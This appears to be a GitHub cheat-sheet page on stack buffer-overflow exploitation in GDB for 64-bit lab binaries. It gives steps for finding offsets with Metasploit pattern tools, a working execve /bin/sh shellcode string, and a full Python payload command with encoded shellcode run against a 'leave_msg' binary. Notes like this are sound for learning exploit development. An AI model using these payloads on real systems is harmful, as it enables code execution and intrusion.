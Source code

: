 # GDB

## 64 Bit

Step 1: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from
Metasploit)
or gdb-peda -> pattern arg 2000 (runs program with arg)

Step 2: Read and copy the value from register RBP for the offset. 

Step 3: Calculate the offset. (use pattern_offset.rb from Metasploit) 
gdb-peda > patts

```console
Registers point to pattern buffer:
[RSI] --> offset 1982 - size ~18
[RDI] --> offset 1982 - size ~18
[RSP] --> offset 1032 - size ~203
``` 
Step 4: Try control the register RIP with the following payload  
Junk*(offset value) + 8 bytes of dummy  
Step 5: Read the stack or register RSP to find a suitable return address.  
Step 6: The general payload should be like below  
Nop + shellcode + Junks + return address  

Hint 2: Working shellcode

\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05

Hint 3: Running the payload with the binary

(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number)
+(return address))";cat) | ./bof64




Use python2 !

```console
Running Payload outside GDB
$ ./leave_msg $(python -c "print '\x55' * 1841 + '\x90' * 124 + '\xda\xc3\xb8\x7d\x24\xf0\x6e\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x13\x03\x3f\x37\x12\x9b\x8e\xec\x25\x87\xa3\x51\x99\x22\x41\xdf\xfc\x03\x23\x12\x7e\xf0\xf2\x1c\x40\x3a\x84\x14\xc6\x3d\xec\xd9\x38\xbe\xed\x4d\x3b\xbe\xfc\xd1\xb2\x5f\x4e\x8f\x94\xce\xfd\xe3\x16\x78\xe0\xc9\x99\x28\x8a\xbf\xb6\xbf\x22\x28\xe6\x10\xd0\xc1\x71\x8d\x46\x41\x0b\xb3\xd6\x6e\xc6\xb4' + '\x2c\xd7\xff\xff'")
```

## Commands

```console
(gdb) set disassembly-flavor intel
- Set the Intel syntax

(gdb) disassemble main
- disassemble the program's main function

(gdb) x/2000xb $esp+500
-examine 
```

## Fuzzing

```console
$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```

## Using GDB
Hello there can anyone explain me the difference between these to commands? Sometime the first one is working and sometimes only the second one 

```console
(gdb) run $(python -c 'print("A" * 650)')
(gdb) r < <(python -c 'print("A" * 650)')
```

```console
$ gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) r < <(python -c 'print("A" * 650)')
Starting program: /home/des/bof < <(python -c 'print("A" * 650)')
Enter some string:

Program received signal SIGSEGV, Segmentation fault.
0x000055555555484e in foo ()
(gdb) i r
rax            0x0      0
rbx            0x3e9    1001
rcx            0x0      0
rdx            0x0      0
rsi            0x555555554956   93824992233814
rdi            0x7ffff7dd0760   140737351845728
rbp            0x4141414141414141       0x4141414141414141
rsp            0x7fffffffe3b8   0x7fffffffe3b8
r8             0xffffffffffffffed       -19
r9             0x25e    606
r10            0x5555557564cb   93824994337995
r11            0x555555554956   93824992233814
r12            0x3e9    1001
r13            0x7fffffffe4b0   140737488348336
r14            0x0      0
r15            0x0      0
rip            0x55555555484e   0x55555555484e <foo+84>
eflags         0x10206  [ PF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

(gdb) x/xg $rsp
0x7fffffffe3b8: 0x3775413675413575
```

Create a pattern with 650 bytes, run it and check the offset with the **rsp** `0x3775413675413575`

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3775413675413575
[*] Exact match at offset 616
```